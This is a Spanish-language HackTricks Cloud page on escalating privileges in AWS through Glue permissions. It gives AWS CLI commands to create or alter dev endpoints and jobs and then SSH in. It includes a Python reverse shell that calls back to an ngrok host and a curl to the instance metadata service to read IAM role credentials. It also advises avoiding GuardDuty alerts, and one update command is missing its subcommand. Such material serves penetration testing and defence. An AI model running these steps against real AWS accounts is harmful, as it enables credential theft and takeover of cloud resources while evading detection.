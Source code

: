 # AWS - Glue Privesc

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**swag oficial de PEASS y HackTricks**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PR a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Un atacante con los permisos `iam:PassRole` y `glue:CreateDevEndpoint` podría **crear un nuevo punto de enlace de desarrollo de AWS Glue y pasarle un rol de servicio existente**. Luego, podrían conectarse por SSH al instante y usar la CLI de AWS para tener acceso a los permisos a los que tiene acceso el rol.

```
aws glue create-dev-endpoint --endpoint-name my_dev_endpoint \
    --role-arn arn_of_glue_service_role \
    --public-key file:///path/to/my/public/ssh/key.pub
```

Ahora, el atacante solo necesitaría **conectarse por SSH al punto de enlace de desarrollo** para acceder a las credenciales de los roles.

```bash
# Obtener la dirección pública de la instancia
## También se puede usar get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# Conéctese con el usuario de pegamento
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```

Aunque no se especifica específicamente en la documentación de GuardDuty, sería una mala idea exfiltrar las credenciales del Instance de Glue. En su lugar, **se debe acceder directamente a la API de AWS desde la nueva instancia**.

**Impacto potencial:** Privesc al rol de servicio de pegamento especificado.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Un atacante con el permiso **`glue:UpdateDevEndpoint`** podría **actualizar la clave pública SSH asociada de un punto de enlace de desarrollo de Glue existente**, para luego conectarse por SSH y tener acceso a los permisos a los que tiene acceso el rol adjunto.

```bash
# Cambiar la clave pública para conectarse
aws glue --endpoint-name target_endpoint \
    --public-key file:///path/to/my/public/ssh/key.pub

# Obtener la dirección pública de la instancia
## También se puede usar get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# Conéctese con el usuario de pegamento
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```

Ahora, el atacante solo necesitaría **conectarse por SSH al punto de enlace de desarrollo para acceder a las credenciales de los roles**. Se debe acceder directamente a la API de AWS desde la nueva instancia para evitar activar alertas.

**Impacto potencial:** Privesc al rol de servicio de pegamento utilizado.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Un atacante con esos permisos puede **crear/actualizar un trabajo adjuntando cualquier cuenta de servicio de pegamento** y iniciarlo. El trabajo puede ejecutar código Python arbitrario, por lo que se puede obtener una shell inversa y usarla para **robar las credenciales IAM** del rol adjunto.

```bash
# Contenido del script de Python guardado en s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#Para obtener las credenciales de IAM Role, ejecute: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# Se creó un rol de Glue con acceso de administrador
aws glue create-job \
    --name privesctest \
    --role arn:aws:iam::93424712358:role/GlueAdmin \
    --command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# Puede iniciar directamente el trabajo
aws glue start-job-run --job-name privesctest
# O puede crear un desencadenador para iniciarlo
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
    --actions '[{"JobName": "privesctest"}]' --start-on-creation \
    --schedule "0/5 * * * * *"  #Cada 5 minutos, siéntete libre de cambiar
```

**Impacto potencial:** Privesc al rol de servicio de pegamento especificado.

### `glue:UpdateJob`

Solo con el permiso de actualización, un atacante podría robar las credenciales IAM del rol ya adjunto.

**Impacto potencial:** Privesc al rol de servicio de pegamento adjunto.

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**swag oficial de PEASS y HackTricks**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PR a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>